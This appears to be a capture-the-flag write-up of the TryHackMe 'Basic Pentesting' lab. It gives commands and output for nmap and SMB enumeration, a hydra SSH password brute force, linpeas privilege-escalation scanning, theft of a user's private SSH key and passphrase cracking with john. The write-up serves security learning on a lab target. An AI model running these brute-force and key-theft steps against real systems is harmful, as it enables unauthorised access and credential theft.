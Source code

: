 # Basic Pentesting

[Room Link](https://tryhackme.com/room/basicpentestingjt)

`nmap -A -vv -T4 10.10.3.56`

nmap, naturally

```
22/tcp   open  ssh         syn-ack OpenSSH 7.2p2 Ubuntu 4ubuntu2.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 db:45:cb:be:4a:8b:71:f8:e9:31:42:ae:ff:f8:45:e4 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDZXasCfWSXQ9lYiKbTNkPs0T+wFym2lZy229LllhY6iDLrjm7LIkhCcrlgnJQtLxl5NPhlHNVmwhlkcPPiAHwluhMVE5xKihQj3i+Ucx2IwiFvfmCz4AKsWlR6N8IZe55Ltw0lcH9ykuKZddg81X85EVsNbMacJNjjyxAtwQmJt1F5kB1B2ixgjLLOyNWafC5g1h6XbEgB2wiSRJ5UA8rOZaF28YcDVo0MQhsKpQG/5oPmQUsIeJTUA/XkoWCjvXZqHwv8XInQLQu3VXKgv735G+CJaKzplh7FZyXju8ViDSAY8gdhqpJommYxzqu9s1M31cmFg2fT5V1z9s4DP/vd
|   256 09:b9:b9:1c:e0:bf:0e:1c:6f:7f:fe:8e:5f:20:1b:ce (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBP0SXJpgwPf/e9AT9ri/dlAnkob4PqzMjl2Q9lZIVIXeEFJ9sfRkC+tgSjk9PwK0DUO3JU27pmtAkDL4Mtv9eZw=
|   256 a5:68:2b:22:5f:98:4a:62:21:3d:a2:e2:c5:a9:f7:c2 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIAzy8ZacWXbPGeqtuiJCnPP0LYZYZlMj5D1ZY9ldg1wU
80/tcp   open  http        syn-ack Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.18 (Ubuntu)
| http-methods: 
|_  Supported Methods: OPTIONS GET HEAD POST
139/tcp  open  netbios-ssn syn-ack Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn syn-ack Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
8009/tcp open  ajp13       syn-ack Apache Jserv (Protocol v1.3)
| ajp-methods: 
|_  Supported methods: GET HEAD POST OPTIONS
8080/tcp open  http        syn-ack Apache Tomcat 9.0.7
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Apache Tomcat/9.0.7
|_http-favicon: Apache Tomcat
Service Info: Host: BASIC2; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
|   Computer name: basic2
|   NetBIOS computer name: BASIC2\x00
|   Domain name: \x00
|   FQDN: basic2
|_  System time: 2025-03-14T01:25:44-04:00
| smb2-time: 
|   date: 2025-03-14T05:25:44
|_  start_date: N/A
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_clock-skew: mean: 1h20m00s, deviation: 2h18m34s, median: 0s
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 36500/tcp): CLEAN (Couldn't connect)
|   Check 2 (port 13459/tcp): CLEAN (Couldn't connect)
|   Check 3 (port 23760/udp): CLEAN (Failed to receive data)
|   Check 4 (port 24943/udp): CLEAN (Failed to receive data)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| nbstat: NetBIOS name: BASIC2, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| Names:
|   BASIC2<00>           Flags: <unique><active>
|   BASIC2<03>           Flags: <unique><active>
|   BASIC2<20>           Flags: <unique><active>
|   \x01\x02__MSBROWSE__\x02<01>  Flags: <group><active>
|   WORKGROUP<00>        Flags: <group><active>
|   WORKGROUP<1d>        Flags: <unique><active>
|   WORKGROUP<1e>        Flags: <group><active>
| Statistics:
|   00:00:00:00:00:00:00:00:00:00:00:00:00:00:00:00:00
|   00:00:00:00:00:00:00:00:00:00:00:00:00:00:00:00:00
|_  00:00:00:00:00:00:00:00:00:00:00:00:00:00

```


![image](https://github.com/user-attachments/assets/047b8f9a-7113-4b6b-9f90-00c12546fa97)

From the website, hence ran dirbuster to see if I find any

![image](https://github.com/user-attachments/assets/1852ef02-79ce-4fed-949c-8407268e0345)


![image](https://github.com/user-attachments/assets/ae7ef6c6-a22f-40ca-9d4e-6d700a9e818e)


![image](https://github.com/user-attachments/assets/4efaa7dd-3278-4ba7-8c40-c0d505293678)


Here, we see two members J and K discussing stuffs, which maybe usefull later?

I tried search for exploits for the given service and version but couldn't find any

moving on

I tried to enumerate smb
Used `enum4linux`

Some relevant results:

`enum4linux -a 10.10.3.56`

```
[+] Attempting to map shares on 10.10.3.56

//10.10.3.56/Anonymous	Mapping: OK Listing: OK Writing: N/
```

i.e.; Anonymous login allowed

```
[+] Retieved partial password policy with rpcclient:


Password Complexity: Disabled
Minimum Password Length: 5
```

Indeed they have a weak password policy

```
[+] Enumerating users using SID S-1-22-1 and logon username '', password ''

S-1-22-1-1000 Unix User\kay (Local User)
S-1-22-1-1001 Unix User\jan (Local User)
```

And we found the two users

I also tried to login to smb using the anonymous user

```
smbclient //10.10.3.56/Anonymous
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Thu Apr 19 23:01:20 2018
  ..                                  D        0  Thu Apr 19 22:43:06 2018
  staff.txt                           N      173  Thu Apr 19 22:59:55 2018

		14318640 blocks of size 1024. 11070564 blocks available
smb: \> cat staff.txt
cat: command not found
smb: \> get staff.txt
getting file \staff.txt of size 173 as staff.txt (0.2 KiloBytes/sec) (average 0.2 KiloBytes/sec)
smb: \>


└──╼ $cat staff.txt 
Announcement to staff:

PLEASE do not upload non-work-related items to this share. I know it's all in fun, but
this is how mistakes happen. (This means you too, Jan!)

-Kay
```

Yeah, it's pretty much Jan and Kay.

Now that we got the username, we will bruteforce the password (according to the challenge)
But which password?
The website doesn't seem to have the login page
So we try ssh?

`hydra -l jan -P /usr/share/wordlists/rockyou.txt ssh://10.10.3.56`

reulsts:

`[22][ssh] host: 10.10.3.56   login: jan   password: armando`

Logged in just to find that jan doesn't have any permission and can't read potential clue files

```
jan@basic2:/home/kay$ sudo -l
[sudo] password for jan: 
Sorry, user jan may not run sudo on basic2.
jan@basic2:/home/kay$
```
Snooped around and found out about [LinEnum](https://github.com/rebootuser/LinEnum) or [LinPeas](https://github.com/peass-ng/PEASS-ng/tree/master/linPEAS)

We will now use scp to transfer linpeas.sh to victim machine

```

└──╼ $scp linpeas.sh jan@10.10.3.56:/dev/shm
jan@10.10.3.56's password: 
linpeas.sh


jan@basic2:/dev/shm$ ls
linpeas.sh
jan@basic2:/dev/shm$
jan@basic2:/dev/shm$ chmod +x linpeas.sh

```

on running linpeas
```
══╣ Possible private SSH keys were found!
/home/kay/.ssh/id_rsa
```

steal the id rsa from kay
import to our machine and `chmod 600 <filename>` (important)

convert the file to john readable format `ssh2john kay_id_rsa >forjohn.txt`

`sudo john forjohn.txt --wordlist=/usr/share/wordlists/rockyou.txt `

`beeswax          (kay_id_rsa)  `

boom, gotcha

```
└──╼ $ssh -i kay_id_rsa kay@10.10.3.56
Enter passphrase for key 'kay_id_rsa': 
Welcome to Ubuntu 16.04.4 LTS (GNU/Linux 4.4.0-119-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

0 packages can be updated.
0 updates are security updates.


Last login: Mon Apr 23 16:04:07 2018 from 192.168.56.102
kay@basic2:~$
```

```
kay@basic2:~$ cat pass.bak 
heresareallystrongpasswordthatfollowsthepasswordpolicy$$
kay@basic2:~$ sudo -l
[sudo] password for kay: 
Matching Defaults entries for kay on basic2:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User kay may run the following commands on basic2:
    (ALL : ALL) ALL
kay@basic2:~$
```

Everything is possible





